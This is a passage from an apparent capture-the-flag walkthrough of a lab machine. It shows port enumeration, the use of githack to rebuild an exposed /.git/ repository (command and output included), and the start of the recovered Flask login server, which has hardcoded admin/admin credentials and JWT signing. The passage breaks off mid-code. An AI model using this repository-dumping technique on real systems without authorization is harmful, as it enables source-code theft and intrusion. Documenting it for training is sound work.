 **Port 5000** offers a login panel that we have no credentials for:
{{< image src="/img/eps1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

On the other hand the http server in **port 80** returns a **403 Forbidden** but nmap finds a git repository in **/.git/**.
{{< image src="/img/eps2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Although it's also forbidden we can recompose it with **githack**:
```bash
❯ githack http://10.129.96.151/.git/

INFO:githack.scanner:Target: http://10.129.96.151/.git/
ERROR:githack.scanner:HTTP Error 404: Not Found: http://10.129.96.151/.git/logs/refs/stash
ERROR:githack.scanner:HTTP Error 404: Not Found: http://10.129.96.151/.git/refs/remotes/origin/master
ERROR:githack.scanner:HTTP Error 404: Not Found: http://10.129.96.151/.git/refs/stash
INFO:githack.scanner:commit: c51441640fd25e9fba42725147595b5918eba0f1
INFO:githack.scanner:commit: 7cf92a7a09e523c1c667d13847c9ba22464412f3
INFO:githack.scanner:commit: c622771686bd74c16ece91193d29f85b5f9ffa91
INFO:githack.scanner:tree: cf489a3776d2bf87ac32de4579e852a4dc116ce8
INFO:githack.scanner:tree: b5f4c99c772eeb629e53d284275458d75ed9a010
INFO:githack.scanner:commit: b10dd06d56ac760efbbb5d254ea43bf9beb56d2d
INFO:githack.scanner:Blob: 545f6fe2204336c1ea21720cbaa47572eb566e34
INFO:githack.scanner:tree: ab07f7cdc7f410b8c8f848ee5674ec550ecb61ca
INFO:githack.scanner:Blob: dfdfa17ca5701b1dca5069b6c3f705a038f4361e
INFO:githack.scanner:tree: 65b80f62da28254f67f0bea392057fd7d2330e2d
INFO:githack.scanner:Blob: 8d3b52e153c7d5380b183bbbb51f5d4020944630
INFO:githack.scanner:Blob: fed7ab97cf361914f688f0e4f2d3adfafd1d7dca
INFO:githack.scanner:Total: 2
INFO:githack.scanner:[OK] track_api_CR_148.py: ('8d3b52e153c7d5380b183bbbb51f5d4020944630', 'blob')
INFO:githack.scanner:[OK] server.py: ('dfdfa17ca5701b1dca5069b6c3f705a038f4361e', 'blob')
```

We get this two files:
```bash
❯ ls
 server.py  track_api_CR_148.py
```

The first one being the script behind the server in **port 5000**:
```python
#!/usr/bin/python3

import jwt
from flask import *

app = Flask(__name__)
secret = '<secret_key>'

def verify_jwt(token,key):
	try:
		username=jwt.decode(token,key,algorithms=['HS256',])['username']
		if username:
			return True
		else:
			return False
	except:
		return False

@app.route("/", methods=["GET","POST"])
def index():
	if request.method=="POST":
		if request.form['username']=="admin" and request.form['password']=="admin":
			res = make_response()
			username=request.form['username']
			token=jwt.encode({"username":"admin"},secret,algorithm="HS256")
```